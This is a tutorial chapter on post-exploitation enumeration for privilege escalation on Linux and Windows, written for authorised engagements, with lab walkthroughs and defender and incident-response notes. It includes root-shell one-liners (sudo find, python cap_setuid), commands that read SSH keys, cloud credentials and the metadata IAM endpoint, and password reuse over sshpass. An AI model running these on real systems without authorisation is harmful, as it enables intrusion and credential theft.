






This is Chapter 1 of the Privilege Escalation notebook. Everything before this got you *in* — a web shell, a caught reverse shell, a Meterpreter session on a low-privilege account. This notebook is about what you do next: turning that toe-hold into control of the host, and then the network. And the single most important lesson of the whole notebook comes first: **privilege escalation is an enumeration problem, not an exploit problem.** Beginners fire exploits and hope. Professionals enumerate the system so thoroughly that the path up becomes obvious, then take it deliberately.

This chapter deliberately contains almost no exploits. It teaches the *method* — the loop of building situational awareness that every later chapter (Linux privesc, Windows privesc, credential harvesting, lateral movement, Active Directory) plugs into. Get this loop into muscle memory and the rest of the notebook becomes "which enumeration finding maps to which technique." Skip it and you will spend every engagement lost, running random `sudo` exploits against a box whose actual weakness was a readable backup file you never looked at.

Everything here assumes an explicit, written, scoped engagement or lab hardware you own. Enumerating and escalating on a system you do not have authorisation to test is a crime regardless of how "read-only" the commands look.

---

## Part 1: The Post-Exploitation Mindset

When your shell lands, resist the urge to *do* anything. First **know** where you are. Adopt a loop borrowed from military decision-making — Observe, Orient, Decide, Act (OODA) — adapted for a host:



Each pass round the loop, you learn more and your model of the host sharpens. The discipline is: **enumerate broadly before you act narrowly.** A single well-chosen action (reading one file, invoking one misconfigured binary) usually beats ten blind exploit attempts, but you can only choose it well if you have already looked.

Five questions organise everything you enumerate:

1. **Who am I?** — current user, groups, privileges, tokens.
2. **What can I do?** — sudo rights, SUID binaries, capabilities, writable paths, group memberships.
3. **Where am I?** — hostname, OS/kernel version, virtualisation/container, patch level.
4. **What's around me?** — other users, processes, services, scheduled jobs, listening ports, other hosts.
5. **What secrets are here?** — credentials in files, history, config, memory, backups, environment variables.

The rest of this chapter walks each question with exact commands for Linux and Windows, and teaches you to *read* the output — because the answer to "what's my path up" is almost always hiding in plain sight in one of these five buckets.

**Why the order matters.** The questions are sequenced deliberately: knowing *who you are* (Q1–2) tells you which of the later findings even apply; knowing *where you are* (Q3) tells you whether you're escalating a host or escaping a container; *what's around you* (Q4) reveals timed jobs and services that are the most common escalation vectors; and *secrets* (Q5) is last only because it's the most tedious to search — never least important, since a found credential usually trumps every technical exploit. Run them out of order and you waste time exploiting a box when a password in `.bash_history` would have walked you in.

**Security relevance for both sides:** everything in this chapter is what an attacker runs in the first five minutes on a box — which makes it exactly what a defender should be able to detect and what a blue teamer runs during incident response to understand a compromise.

---

## Part 2: First Contact — Orient Immediately

The moment you have a shell, run a tiny orientation burst. On **Linux**:

```bash
id                 # who am I, what groups
whoami
hostname
uname -a           # kernel + arch + OS
cat /etc/os-release # distro + version
ip a               # network interfaces and addresses
pwd                # where in the filesystem am I
```

Reading the output of `id` is the first branch point:

```
uid=1000(dev) gid=1000(dev) groups=1000(dev),4(adm),27(sudo),999(docker)
```

That one line is gold: this user is in `sudo` (can likely escalate via `sudo`), `docker` (docker group = root-equivalent via container escape), and `adm` (can read logs). Each group is a lead. A user in `docker` is effectively already root — you have found your path in the first command.

On **Windows** (in `cmd` or PowerShell):

```cmd
whoami
whoami /priv          :: token privileges - the crown jewels
whoami /groups
hostname
systeminfo            :: OS version, hotfixes, domain membership
ipconfig /all
echo %USERDOMAIN% \ %USERNAME%
```

`whoami /priv` is the Windows equivalent of reading `id`'s groups — it lists token privileges like `SeImpersonatePrivilege` (leads straight to the Potato attacks in a later chapter) or `SeBackupPrivilege` (read any file). If `SeImpersonatePrivilege` is `Enabled`, you often have a near-guaranteed path to SYSTEM.



**Pitfall:** don't stop at the fast win check. Note it, then keep enumerating — you want the *full* picture before you act, and sometimes the "obvious" path is a decoy or a monitored honeytoken.

---

## Part 3: Stabilise, Then Stay Quiet

Two housekeeping steps before deep enumeration.

**Stabilise the shell** (previous notebook): upgrade to a PTY so `sudo`, `su`, and interactive tools work. You cannot run half the enumeration effectively from a dumb shell.

**Decide your noise budget.** Enumeration is not free — every command is a process-creation event, every uploaded script is a file-write and a new-binary event. On a monitored network, dumping `linpeas.sh` and running it is loud. Match your method to the engagement:

| Engagement type | Approach |
|-----------------|----------|
| Loud/OSCP-style, detection out of scope | Upload LinPEAS/WinPEAS, run everything, move fast |
| Purple team / detection in scope | Manual, targeted commands; avoid noisy scanners |
| Red team / evasion required | Hand-picked commands, live-off-the-land, no uploads, slow and low |

Even when loud is allowed, understanding the *manual* commands is non-negotiable: automated tools miss things, misreport, or get blocked, and you must be able to verify and extend their findings by hand. This chapter teaches the manual method; automated tools (LinPEAS/WinPEAS) get their own from-scratch treatment in the next two chapters.

---

## Part 4: Who Am I / What Can I Do (Linux)

Enumerate your own power on the box.

**sudo rights** — the first thing to check:

```bash
sudo -l
```

```
Matching Defaults entries for dev on host:
    env_reset, mail_badpass

User dev may run the following commands on host:
    (root) NOPASSWD: /usr/bin/find
```

That output says `dev` can run `find` as root with no password. `find` has a `-exec` primitive — `sudo find . -exec /bin/sh \; -quit` is instant root. Any entry under `sudo -l` is a lead; cross-reference every binary against GTFOBins (Part 10).

**Groups** — already seen in `id`; expand:

```bash
groups
getent group docker    # who else is in a powerful group
```

**SUID/SGID binaries** — files that run as their owner (often root) regardless of who executes them:

```bash
find / -perm -4000 -type f 2>/dev/null      # SUID
find / -perm -2000 -type f 2>/dev/null      # SGID
```

An unexpected SUID binary (e.g., `/usr/bin/env`, `nmap`, `vim`, a custom program) is a classic escalation. Compare the list against a stock system; the *odd one out* is your target. Details in the next-but-one chapter.

**Capabilities** — finer-grained than SUID:

```bash
getcap -r / 2>/dev/null
# /usr/bin/python3.10 = cap_setuid+ep   <-- python can setuid(0) -> root
```

`cap_setuid+ep` on python means `python3 -c 'import os;os.setuid(0);os.system("/bin/sh")'` gives root.

**Writable sensitive paths:**

```bash
find / -writable -type d 2>/dev/null | grep -vE '^/proc|^/sys'   # writable dirs
ls -la /etc/passwd /etc/shadow /etc/sudoers                       # writable? jackpot
find / -writable -type f 2>/dev/null | grep -E 'cron|systemd|\.service|\.sh$'
```

A world-writable file that root executes (a cron script, a systemd unit) is a direct escalation.

| Question | Command | Why it matters |
|----------|---------|----------------|
| Can I sudo? | `sudo -l` | direct root if a binary is GTFOBin-able |
| Powerful group? | `id`, `getent group` | docker/lxd/disk/adm = root-equivalent |
| SUID/SGID? | `find / -perm -4000` | run-as-owner binaries |
| Capabilities? | `getcap -r /` | cap_setuid, cap_dac_read_search |
| Writable root-run file? | `find / -writable ...` | overwrite -> code as root |

---

## Part 5: Who Am I / What Can I Do (Windows)

The Windows equivalents.

**Token privileges** (already run in Part 2):

```cmd
whoami /priv
```

Key privileges and where they lead:

| Privilege | Leads to |
|-----------|----------|
| `SeImpersonatePrivilege` | Potato attacks -> SYSTEM |
| `SeAssignPrimaryTokenPrivilege` | token abuse -> SYSTEM |
| `SeBackupPrivilege` | read any file (SAM, SYSTEM hives) |
| `SeRestorePrivilege` | write any file -> privesc |
| `SeDebugPrivilege` | read process memory (LSASS) |
| `SeTakeOwnershipPrivilege` | own any object -> privesc |

**Group membership & local admins:**

```cmd
whoami /groups
net user %USERNAME%
net localgroup administrators
```

**Service and file misconfigurations** (deep-dived two chapters on):

```cmd
:: services with weak permissions (unquoted paths, writable binaries)
wmic service get name,displayname,pathname,startmode | findstr /i "auto" | findstr /i /v "c:\windows"
:: AlwaysInstallElevated (MSI as SYSTEM)
reg query HKLM\Software\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
reg query HKCU\Software\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
```

If both `AlwaysInstallElevated` keys are `0x1`, any MSI you craft installs as SYSTEM — an instant win.

---

## Part 6: Where Am I — OS, Patch Level, Environment

Fingerprint the platform to find kernel/OS exploits and understand constraints.

**Linux:**

```bash
uname -a                 # kernel version -> kernel exploit search
cat /etc/os-release
dpkg -l 2>/dev/null | wc -l   # installed packages (Debian)
rpm -qa 2>/dev/null | wc -l   # (RHEL)
lscpu; free -h; df -h    # resources, useful for building exploits locally
systemd-detect-virt      # am I in a VM/container?
cat /proc/1/cgroup       # container hints (docker/lxc/kubepods)
```

`uname -a` giving an old kernel (e.g., pre-5.8) opens kernel-exploit avenues (Dirty Pipe, Dirty COW, etc.) covered later — but kernel exploits are a last resort (crash risk); enumerate misconfigs first.

**Windows:**

```cmd
systeminfo
:: extract just OS + hotfixes for exploit matching
systeminfo | findstr /B /C:"OS Name" /C:"OS Version"
wmic qfe get HotFixID,InstalledOn    :: installed patches
```

Feed `systeminfo` into **Windows Exploit Suggester - Next Generation (WES-NG)** offline to map missing patches to public exploits — a technique from the Windows chapter.

**Am I in a container?** This changes everything: an escape, not a host privesc, may be the goal. `/proc/1/cgroup` mentioning `docker`/`kubepods`, the presence of `/.dockerenv`, or a tiny process list all signal containment.

---

## Part 7: What's Around Me — Users, Processes, Services, Jobs

Now widen the lens beyond yourself.

**Other users:**

```bash
cat /etc/passwd | grep -vE 'nologin|false'   # accounts with real shells
ls -la /home                                  # other users' home dirs (readable?)
who; w; last                                  # who's logged in / recently
```

**Running processes** — especially root processes and their command lines (which may leak credentials):

```bash
ps auxww                # full command lines - watch for passwords in args
ps auxww | grep -i root
```

A process like `mysqld --user=root --password=SuperSecret` in the process table is a credential handed to you. **This is why real ops never pass secrets on the command line** — anyone with a shell can read `ps`.

**Services & scheduled jobs** — things root runs on a timer are prime targets:

```bash
systemctl list-units --type=service --state=running
crontab -l                       # your cron
cat /etc/crontab; ls -la /etc/cron.*   # system cron - root scripts here
ls -la /etc/systemd/system/ /etc/systemd/system/timers.target.wants/
```

A cron job in `/etc/crontab` running a **writable** script as root is a textbook escalation (next chapter). Watch for wildcards (`tar *`), relative paths (PATH hijack), and world-writable targets.

**Windows equivalents:**

```cmd
tasklist /v                       :: processes + owner
schtasks /query /fo LIST /v       :: scheduled tasks (look for SYSTEM tasks running writable scripts)
net user; net localgroup
query user                        :: logged-on users
```



---

## Part 8: Network Position — What Can This Box Reach?

A foothold's value is often what it can *see*. Map the box's network position.

**Linux:**

```bash
ip a; ip route                       # interfaces and routes - dual-homed?
ss -tulpn                            # listening sockets + owning process
ss -tnp                              # established connections - to where?
cat /etc/hosts                       # named internal hosts
arp -a 2>/dev/null; ip neigh         # neighbours = other live hosts
for i in $(seq 1 254); do (ping -c1 -W1 10.0.0.$i >/dev/null && echo 10.0.0.$i up &); done   # quick sweep
```

A second interface on `10.0.0.0/24` while you came in on `10.10.10.0/24` means this box is a **pivot** into an internal network — exactly the socat/relay scenario from the previous notebook. Internal-only listeners (a DB on `127.0.0.1:3306`, an admin panel on `:8080`) are services you can now reach that the outside world cannot.

**Windows:**

```cmd
ipconfig /all
route print
netstat -ano                         :: connections + PIDs
arp -a
nslookup <dc-name>                    :: is this domain-joined? where's the DC?
```

Discovering domain membership here pivots the whole engagement toward Active Directory (the next notebook). `netstat -ano` showing a connection to a domain controller on 445/389/88 tells you this is an AD environment.

### Reading listeners like a map

`ss -tulpn` / `netstat -ano` output is a map of local attack surface. Interpret it:

```
State    Local Address:Port   Process
LISTEN   127.0.0.1:3306       mysqld       <- DB, localhost-only: reachable now, not from outside
LISTEN   127.0.0.1:6379       redis-server <- Redis localhost: often unauth (Part 9 of Ch8)
LISTEN   0.0.0.0:8080         java         <- internal web/admin app
LISTEN   127.0.0.1:8000       python       <- dev service, maybe debug/RCE
```

Each `127.0.0.1`-bound service is something the perimeter firewall never exposed but *you* can now hit from the foothold — frequently a softer target than anything internet-facing, because admins assume "localhost-only" means "safe." Port-forward it out (previous notebook) or attack it in place. This is why a shell on a box is worth far more than a port scan of it: you see the inside.



### The full picture as a kill-chain



Situational awareness sits at the centre of that chain — every branch (escalate, pivot, harvest, move) is chosen based on what enumeration revealed.

---

## Part 9: Hunting Secrets

Credentials in the environment are the fastest, quietest escalation and the bridge to lateral movement. Look everywhere.

**Linux:**

```bash
# shell history - people paste passwords constantly
cat ~/.bash_history ~/.zsh_history 2>/dev/null
cat /home/*/.bash_history 2>/dev/null
# config files with creds
grep -riE 'password|passwd|secret|api_key|token' /etc /var/www /opt 2>/dev/null | grep -vi 'password:' | head
# common credential stores
cat ~/.ssh/id_* 2>/dev/null          # private keys
cat /var/www/html/wp-config.php 2>/dev/null   # DB creds in app config
cat ~/.aws/credentials ~/.git-credentials 2>/dev/null
find / -name '*.kdbx' -o -name 'id_rsa' 2>/dev/null   # keepass, ssh keys
env                                   # secrets in environment variables
```

**Windows:**

```cmd
:: saved creds
cmdkey /list
:: files likely to hold secrets
findstr /si password *.txt *.ini *.config *.xml 2>nul
:: unattended install files (plaintext admin password)
type C:\Windows\Panther\Unattend.xml 2>nul
type C:\Windows\Panther\Unattended.xml 2>nul
:: PowerShell history
type %APPDATA%\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt
:: registry autologon creds
reg query "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon" /v DefaultPassword 2>nul
```

### Cloud and database credentials

Modern boxes leak cloud keys and DB creds constantly:

```bash
# cloud
cat ~/.aws/credentials ~/.config/gcloud/*.json 2>/dev/null
env | grep -iE 'AWS_|AZURE_|GCP_|_TOKEN|_KEY'
# instance metadata (if this is a cloud VM) - IAM creds with no auth
curl -s http://169.254.169.254/latest/meta-data/iam/security-credentials/ 2>/dev/null
# databases
cat /var/www/**/wp-config.php /var/www/**/.env 2>/dev/null
mysql -u root --password='' -e 'show databases;' 2>/dev/null   # blank-root check
```

The **instance metadata endpoint** (`169.254.169.254`) is a standout: on a cloud VM it can hand out temporary IAM credentials to anyone who can make an HTTP request from the box — turning a local foothold into cloud-account access. (SSRF into this endpoint is a classic bug-bounty finding; from a shell it's just a `curl`.) Treat any cloud key you find as high-value and log exactly where it can be used.

**IR use case:** these same searches are what a responder runs to understand what an attacker could have grabbed — and defenders should treat any of these locations holding plaintext secrets as a finding in itself.

| Secret source | Linux | Windows |
|---------------|-------|---------|
| Shell history | `~/.bash_history` | `ConsoleHost_history.txt` |
| App config | `wp-config.php`, `.env` | `web.config`, `*.config` |
| Saved creds | `~/.ssh`, `~/.aws` | `cmdkey /list`, Credential Manager |
| Install artifacts | kickstart files | `Unattend.xml`, `sysprep` |
| Env vars | `env` | `set` |
| Backups | `/var/backups`, `*.bak` | shadow copies, `*.bak` |

---

## Part 10: Turning Findings Into a Plan — GTFOBins & LOLBAS

Enumeration produces a pile of facts; you need to convert them into a ranked plan. Two reference projects do the heavy lifting:

- **GTFOBins** (Linux) — a curated list of standard binaries and how to abuse them for shell, file read/write, SUID, sudo, and capabilities. If `sudo -l` shows `find`, GTFOBins tells you `sudo find . -exec /bin/sh \; -quit`. If an SUID binary is `vim`, GTFOBins gives the `:!/bin/sh` escalation.
- **LOLBAS** (Windows) — "Living Off the Land Binaries And Scripts": signed Microsoft binaries abusable for execution, download, and bypass (`certutil`, `regsvr32`, `mshta`, etc.).

The workflow:



**Rank by reliability and noise**, then act on the safest highest-value path first:

1. Credentials found (reuse them — quiet, reliable).
2. `sudo -l` / GTFOBins misconfig (deterministic).
3. SUID / capability abuse (deterministic).
4. Writable service/cron (reliable, may need to wait for a timer).
5. Kernel exploit (last resort — crash risk).

---

## Part 10.5: Mapping Findings to Escalation Categories

Every enumeration finding falls into one of a handful of escalation categories. This table is the index to the rest of the notebook — when your enumeration surfaces something on the left, the technique on the right is where it leads (and which chapter covers it).

| Finding (Linux) | Escalation category | Covered in |
|-----------------|---------------------|-----------|
| `sudo -l` allows a binary | sudo/GTFOBins abuse | Ch2–3 |
| SUID binary (odd one out) | SUID abuse | Ch3 |
| `getcap` shows cap_setuid/cap_dac_read_search | capability abuse | Ch3 |
| Writable root cron/systemd script | scheduled-job hijack | Ch3 |
| Writable `$PATH` dir + relative call | PATH hijack | Ch3 |
| Old kernel | kernel exploit (last resort) | Ch3 |
| Creds in files/history | credential reuse | Ch1, Ch6 |
| `docker`/`lxd` group | container escape | Ch3 |

| Finding (Windows) | Escalation category | Covered in |
|-------------------|---------------------|-----------|
| `SeImpersonatePrivilege` | Potato / token abuse | Ch5 |
| Weak service permissions | service abuse | Ch5 |
| Unquoted service path | unquoted path hijack | Ch5 |
| `AlwaysInstallElevated=1` | MSI as SYSTEM | Ch5 |
| Writable SYSTEM scheduled task | task hijack | Ch5 |
| UAC bypassable context | UAC bypass | Ch5 |
| LSASS readable / creds saved | credential harvesting | Ch6 |
| Stored creds (`cmdkey`, Unattend) | credential reuse / lateral | Ch6–7 |

This is the payoff of methodology: enumeration is not busywork, it is *classification*. Each fact you gather routes to a known technique. Master the loop and the notebook stops being a list of unrelated tricks and becomes a decision tree you can execute under time pressure.

---

## Part 11: Automated Enumeration — Balance, Not Crutch

Automated scripts run hundreds of these checks in seconds. They belong in your kit, but with judgement.

- **LinPEAS / WinPEAS** — the dominant privilege-escalation scanners; colour-coded output flags likely wins. Taught from scratch in the next two chapters.
- **linux-smart-enumeration (lse.sh)**, **LinEnum**, **pspy** (watch processes/cron without root) on Linux.
- **Seatbelt**, **PrivescCheck**, **PowerUp** on Windows.

Rules for using them well:

1. **Run manual orientation first** (`id`, `sudo -l`, `whoami /priv`) — the fast wins are often found before any scanner.
2. **Understand every finding** — a scanner says "SUID binary found"; *you* must know why it's exploitable.
3. **Mind the noise** — a scanner is a flurry of process/file events; don't run one where detection matters.
4. **Verify** — scanners produce false positives; confirm by hand before you rely on a path.

**pspy** deserves a special mention: it lets an unprivileged user watch processes and cron jobs execute in real time *without root*, revealing root cron jobs and their arguments (and any creds passed on the command line) — often the single most productive Linux enumeration tool.

```bash
./pspy64 -pf -i 1000     # watch process + file events every second
```

---

## Part 12: Fully Worked Lab — From Shell to Escalation Plan

**Scope:** an authorised lab box. You have a stabilized reverse shell as `dev` on `app01` (`10.10.10.20`). Goal: build a complete situational-awareness picture and produce a ranked escalation plan (execution of the escalation itself is the next chapters).

### Step 1 — Orient

```bash
dev@app01:~$ id
uid=1000(dev) gid=1000(dev) groups=1000(dev),4(adm)
dev@app01:~$ uname -a
Linux app01 5.4.0-90-generic #101-Ubuntu SMP x86_64 GNU/Linux
dev@app01:~$ hostname; ip a | grep inet
app01
    inet 10.10.10.20/24 ...
    inet 172.16.5.10/24 ...     <-- second network!
```

Two takeaways already: `dev` is in `adm` (can read logs), and the box is **dual-homed** (`172.16.5.0/24`) — a pivot.

### Step 2 — What can I do?

```bash
dev@app01:~$ sudo -l
[sudo] password for dev:      # no password known - skip
dev@app01:~$ find / -perm -4000 -type f 2>/dev/null
/usr/bin/sudo
/usr/bin/passwd
/usr/bin/pkexec              <-- pkexec! (CVE-2021-4034 candidate on this kernel era)
/usr/bin/mount
dev@app01:~$ getcap -r / 2>/dev/null
/usr/bin/python3.8 = cap_setuid+ep     <-- python can setuid(0)
```

Two strong deterministic leads: `python3.8` has `cap_setuid` (instant root), and `pkexec` is present on a vintage vulnerable to CVE-2021-4034 (PwnKit).

### Step 3 — What's around me / secrets?

```bash
dev@app01:~$ ps auxww | grep -i root | grep -v ']'
root  812  /usr/local/bin/backup.sh
dev@app01:~$ ls -la /usr/local/bin/backup.sh
-rwxrwxr-x 1 root staff 214 ... /usr/local/bin/backup.sh   # group-writable? check my groups
dev@app01:~$ cat /etc/crontab | grep backup
*/5 * * * * root /usr/local/bin/backup.sh
dev@app01:~$ grep -ri password /var/www 2>/dev/null | head -1
/var/www/app/.env:DB_PASSWORD=Str0ngDbPass!
```

More leads: a root cron running `backup.sh` every 5 minutes, and a DB password in `.env` (reuse candidate for the DB and maybe SSH).

### Step 4 — The ranked plan

Consolidating everything into a prioritised escalation plan:

| Rank | Path | Evidence | Reliability | Noise |
|------|------|----------|-------------|-------|
| 1 | `python3.8` cap_setuid | `getcap` output | deterministic | low |
| 2 | Reuse `.env` DB pass for other accounts | `.env` file | conditional | low |
| 3 | PwnKit (CVE-2021-4034) via `pkexec` | SUID pkexec + kernel era | high | medium |
| 4 | Hijack `backup.sh` (if writable by my group) | root cron | conditional | low-medium |
| 5 | Kernel exploit for 5.4.0-90 | `uname` | risky | high |

The plan is clear: **try the `python3` capability first** — it is a one-liner, deterministic, and quiet:

```bash
dev@app01:~$ python3.8 -c 'import os; os.setuid(0); os.system("/bin/bash")'
root@app01:~# id
uid=0(root) ...
```

Notice what made this easy: not a clever exploit, but *thorough enumeration* that surfaced a `getcap` finding a beginner firing kernel exploits would never have looked for. That is the entire thesis of this notebook.

---

## Part 12.5: The Same Loop on Windows — Worked Example

The five-question loop is OS-agnostic. Here it is on a Windows foothold to cement the parallel. You have a shell as `svc_web` on `WEB02`.

### Orient

```cmd
C:\> whoami
web02\svc_web
C:\> whoami /priv
Privilege Name                Description                    State
============================= ============================== ========
SeChangeNotifyPrivilege       Bypass traverse checking       Enabled
SeImpersonatePrivilege        Impersonate a client           Enabled   <-- !
SeCreateGlobalPrivilege       Create global objects          Enabled
C:\> systeminfo | findstr /B /C:"OS Name" /C:"OS Version"
OS Name:      Microsoft Windows Server 2019 Standard
OS Version:   10.0.17763 N/A Build 17763
```

`SeImpersonatePrivilege` is `Enabled` — a service account with this privilege is a near-guaranteed SYSTEM via a Potato attack (next chapters). Note it, keep enumerating.

### What can I do / around me

```cmd
C:\> net localgroup administrators
Members: Administrator, domainadmins
C:\> whoami /groups | findstr /i "service"
NT SERVICE\...          (service SID)
C:\> schtasks /query /fo LIST /v | findstr /i "Task To Run SYSTEM"
Task To Run:   C:\scripts\cleanup.bat
Run As User:   SYSTEM
C:\> icacls C:\scripts\cleanup.bat
C:\scripts\cleanup.bat  BUILTIN\Users:(F)      <-- Users have Full control!
```

A SYSTEM scheduled task runs a script that the `Users` group can fully modify — a deterministic escalation (append a payload to `cleanup.bat`, wait for the task).

### Secrets

```cmd
C:\> cmdkey /list
    Target: Domain:interactive=CORP\backupadmin
C:\> type C:\Windows\Panther\Unattend.xml | findstr /i password
    <Password>UABhAHMAcwB3ADAAcgBkAA==</Password>   (base64 -> plaintext admin pw)
```

### Plan

| Rank | Path | Evidence | Reliability |
|------|------|----------|-------------|
| 1 | Modify SYSTEM task `cleanup.bat` | `icacls` Users:(F) | deterministic |
| 2 | `SeImpersonate` -> Potato -> SYSTEM | `whoami /priv` | high |
| 3 | Reuse Unattend.xml admin pass | base64 decode | conditional |
| 4 | Reuse `cmdkey` stored backupadmin cred | `cmdkey /list` | conditional (lateral) |

Same discipline, same output: a ranked plan, not a lucky guess.

---

## Part 12.7: Note-Taking and Organisation

Enumeration produces more facts than you can hold in your head. Disorganised operators miss the one finding that mattered. A lightweight system:

- **One file per host** (CherryTree, Obsidian, Markdown, or plain text) with sections mirroring the five questions.
- **Record the command and its output**, not just a conclusion — you will need the evidence for the report and to re-check assumptions.
- **Flag leads explicitly**: mark each interesting finding `[LEAD]` and give it a rank.
- **Track credentials in one place** — every username, password, hash, and key you find, with where it came from and where you have (and haven't) tried it. Credential reuse (next section) depends on this list.
- **Timestamp actions** so your notes double as the timeline the report and any purple-team debrief need.

A finding you didn't write down is a finding you don't have. Good notes are also what separates a repeatable, professional methodology from ad-hoc luck.

---

## Part 12.8: Credential Reuse and Spraying

The single most productive move after finding one credential is trying it *everywhere*. Password reuse across accounts and hosts is endemic.

```bash
# Linux: try a found password for other local users / su
su - otheruser        # enter the found password
# try it against SSH on internal hosts (in scope!)
sshpass -p 'Str0ngDbPass!' ssh admin@172.16.5.11
```

```cmd
:: Windows / AD: spray a found password across users (throttle to avoid lockout!)
